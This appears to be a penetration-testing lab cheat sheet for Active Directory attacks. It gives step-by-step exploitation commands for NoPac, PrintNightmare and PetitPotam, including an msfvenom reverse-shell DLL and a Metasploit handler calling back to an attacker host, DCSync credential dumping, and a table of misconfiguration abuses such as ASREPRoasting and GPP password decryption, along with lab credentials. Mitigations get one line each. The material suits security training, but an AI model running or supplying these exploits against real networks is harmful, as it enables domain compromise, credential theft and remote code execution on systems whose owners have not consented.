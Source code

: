 # Bleeding Edge Vulnerabilities & Misconfigurations in Active Directory Lateral Movement

---

## Introduction

Many organizations delay patching and overlook configuration best practices, leaving them exposed to high-impact vulnerabilities and misconfigurations. This section covers both recent, high-profile attacks (NoPac, PrintNightmare, PetitPotam) and a range of common but critical misconfigurations. Each is mapped to the tools and commands used for detection and exploitation, with technical details and concise explanations.

---

## Scenario Setup

- **Linux attack host:** SSH into ATTACK01.
- **Windows attack host:** Use MS01 for Rubeus/Mimikatz demos.
- **Switching platforms:** Use RDP for Windows, SSH from Windows to Linux as needed.
- **All tools referenced are open-source and available on GitHub.**

---

## 1. Bleeding Edge Vulnerabilities

### 1.1 NoPac (SamAccountName Spoofing)
- **CVE-2021-42278 & CVE-2021-42287**
- **Impact:** Privilege escalation from any standard domain user to Domain Admin.
- **Technique:** Change a computer account's SamAccountName to match a DC, then request Kerberos tickets as the DC.
- **Pre-requisite:** `ms-DS-MachineAccountQuota > 0` (default: 10).

**Key Commands:**
```bash
# Install tools
git clone https://github.com/SecureAuthCorp/impacket.git
cd impacket && python setup.py install
git clone https://github.com/Ridter/noPac.git

# Scan for vulnerability
sudo python3 scanner.py inlanefreight.local/forend:Klmcargo2 -dc-ip 172.16.5.5 -use-ldap

# Exploit
sudo python3 noPac.py INLANEFREIGHT.LOCAL/forend:Klmcargo2 -dc-ip 172.16.5.5 -dc-host ACADEMY-EA-DC01 -shell --impersonate administrator -use-ldap

# DCSync
sudo python3 noPac.py INLANEFREIGHT.LOCAL/forend:Klmcargo2 -dc-ip 172.16.5.5 -dc-host ACADEMY-EA-DC01 --impersonate administrator -use-ldap -dump -just-dc-user INLANEFREIGHT/administrator
```
**Mitigation:** Set `ms-DS-MachineAccountQuota` to 0, patch DCs.

---

### 1.2 PrintNightmare (CVE-2021-34527 & CVE-2021-1675)
- **Impact:** RCE and privilege escalation via Print Spooler service.
- **Technique:** Remote SYSTEM shell or relay attacks on unpatched hosts.

**Key Commands:**
```bash
# Clone exploit and install Impacket
git clone https://github.com/cube0x0/CVE-2021-1675.git
pip3 uninstall impacket
git clone https://github.com/cube0x0/impacket
cd impacket && python3 ./setup.py install

# Check for Print Spooler exposure
rpcdump.py @172.16.5.5 | egrep 'MS-RPRN|MS-PAR'

# Generate DLL payload
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=172.16.5.225 LPORT=8080 -f dll > backupscript.dll

# Host DLL
sudo smbserver.py -smb2support CompData /path/to/backupscript.dll

# Start handler (Metasploit)
use exploit/multi/handler
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST 172.16.5.225
set LPORT 8080
run

# Run exploit
sudo python3 CVE-2021-1675.py inlanefreight.local/forend:Klmcargo2@172.16.5.5 '\\172.16.5.225\CompData\backupscript.dll'
```
**Mitigation:** Patch all hosts, disable Print Spooler where not needed.

---

### 1.3 PetitPotam (CVE-2021-36942, MS-EFSRPC)
- **Impact:** LSA spoofing, NTLM relay to AD CS, domain compromise.
- **Technique:** Relay DC authentication to vulnerable CA, obtain certificate, perform DCSync.

**Key Commands:**
```bash
# Start ntlmrelayx.py targeting AD CS
sudo ntlmrelayx.py -debug -smb2support --target http://ACADEMY-EA-CA01.INLANEFREIGHT.LOCAL/certsrv/certfnsh.asp --adcs --template DomainController

# Trigger authentication from DC
python3 PetitPotam.py 172.16.5.225 172.16.5.5

# Request TGT for DC using gettgtpkinit.py
python3 /opt/PKINITtools/gettgtpkinit.py INLANEFREIGHT.LOCAL/ACADEMY-EA-DC01$ -pfx-base64 <base64cert> dc01.ccache
export KRB5CCNAME=dc01.ccache

# DCSync with secretsdump.py
secretsdump.py -just-dc-user INLANEFREIGHT/administrator -k -no-pass "ACADEMY-EA-DC01$"@ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL
```
**Mitigation:** Patch for CVE-2021-36942, harden AD CS, restrict templates, monitor for relaying.

---

## 2. Common Misconfigurations & Attacks

### Table: Misconfigurations, Vulnerabilities, and Attacks (with Example Commands)

| Misconfiguration / Vulnerability                | Attack / Abuse / Outcome                                 | Example Commands / Tools                                                                                   |
|------------------------------------------------|----------------------------------------------------------|------------------------------------------------------------------------------------------------------------|
| **Exchange Windows Permissions group**          | DCSync privilege escalation, domain compromise           | `net group "Exchange Windows Permissions" /domain`<br>BloodHound<br>PowerView                              |
| **PrivExchange (Exchange PushSubscription flaw)**| Relay Exchange auth to LDAP, dump NTDS, DA access        | `python3 privexchange.py -u user -p pass -d domain -t <exchange-server>`                                   |
| **Organization Management group**               | Full Exchange/OU control, mailbox access                 | `net group "Organization Management" /domain`<br>BloodHound                                                |
| **Print Spooler enabled (MS-RPRN bug)**         | Printer Bug: NTLM relay to LDAP, DCSync, RBCD            | `rpcdump.py @<target-ip> | grep MS-RPRN`<br>`Import-Module .\SecurityAssessment.ps1; Get-SpoolStatus -ComputerName <DC>`<br>`python3 SpoolSample.py <attacker-ip> <target-ip>` |
| **Unpatched MS14-068**                          | Kerberos PAC forgery, escalate to Domain Admin           | `python ms14-068.py -u user -p pass -d domain -s <dc-ip>`                                                  |
| **Weak/default LDAP credentials in devices**    | Credential sniffing, initial foothold                    | `nc -lvp 389`<br>Change LDAP IP in device/printer config                                                   |
| **AD DNS zone readable by users**               | DNS record enumeration, host discovery                   | `adidnsdump -u inlanefreight\\forend ldap://172.16.5.5`<br>`adidnsdump -u inlanefreight\\forend ldap://172.16.5.5 -r` |
| **Passwords in user Description/Notes fields**  | Credential discovery, lateral movement                   | `Get-DomainUser * | Select-Object samaccountname,description | Where-Object {$_.Description -ne $null}`                             |
| **PASSWD_NOTREQD flag set on accounts**         | Weak/no password, easy brute-force or login              | `Get-DomainUser -UACFilter PASSWD_NOTREQD | Select-Object samaccountname,useraccountcontrol`                     |
| **SYSVOL/scripts readable by all**              | Passwords in scripts, privilege escalation               | `ls \\academy-ea-dc01\SYSVOL\INLANEFREIGHT.LOCAL\scripts`<br>`cat \\academy-ea-dc01\SYSVOL\INLANEFREIGHT.LOCAL\scripts\reset_local_admin_pass.vbs` |
| **GPP cpassword in SYSVOL**                     | Decrypt local admin passwords, lateral movement          | `gpp-decrypt <cpassword>`<br>`crackmapexec smb -M gpp_password`<br>`Get-GPPPassword.ps1`                   |
| **Registry.xml in SYSVOL**                      | Autologon credentials, lateral movement                  | `crackmapexec smb 172.16.5.5 -u forend -p Klmcargo2 -M gpp_autologin`<br>`Get-GPPAutologon.ps1`            |
| **Do not require Kerberos pre-auth (UAC flag)** | ASREPRoasting: offline password cracking                 | `.\Rubeus.exe asreproast /user:mmorgan /nowrap /format:hashcat`<br>`GetNPUsers.py INLANEFREIGHT.LOCAL/ -dc-ip 172.16.5.5 -no-pass -usersfile valid_ad_users`<br>`kerbrute userenum -d inlanefreight.local --dc 172.16.5.5 /opt/jsmith.txt` |
| **GPOs with weak ACLs**                         | GPO abuse: add local admin, run code, persistence        | `Get-DomainGPO | select displayname`<br>`Get-DomainGPO | Get-ObjectAcl`<br>`SharpGPOAbuse.exe --AddLocalAdmin /GPOName:<GPO> /User:<user>`<br>BloodHound |
| **Password reuse across accounts**              | Lateral movement, privilege escalation                   | `crackmapexec smb ... --local-auth`<br>Password spraying tools                                              |
| **Unconstrained/Constrained Delegation**        | Ticket theft, lateral movement, privilege escalation     | BloodHound<br>Rubeus<br>Impacket tools                                                                      |
| **AD CS misconfigurations**                     | ESC1-8 attacks, domain persistence/compromise            | `certipy`<br>ADCS enumeration scripts                                                                       |

---

### Example: Enumerating for Printer Bug (MS-RPRN) in PowerShell

```powershell
Import-Module .\SecurityAssessment.ps1
Get-SpoolStatus -ComputerName ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL
```

### Example: Enumerating DNS Records with adidnsdump

```bash
adidnsdump -u inlanefreight\\forend ldap://172.16.5.5
adidnsdump -u inlanefreight\\forend ldap://172.16.5.5 -r
```

### Example: Finding Passwords in Description Field

```powershell
Get-DomainUser * | Select-Object samaccountname,description | Where-Object {$_.Description -ne $null}
```

### Example: GPP Password Decryption

```bash
gpp-decrypt <cpassword>
crackmapexec smb 172.16.5.5 -u forend -p Klmcargo2 -M gpp_password
```

### Example: ASREPRoasting

```powershell
.\Rubeus.exe asreproast /user:mmorgan /nowrap /format:hashcat
```
```bash
GetNPUsers.py INLANEFREIGHT.LOCAL/ -dc-ip 172.16.5.5 -no-pass -usersfile valid_ad_users
kerbrute userenum -d inlanefreight.local --dc 172.16.5.5 /opt/jsmith.txt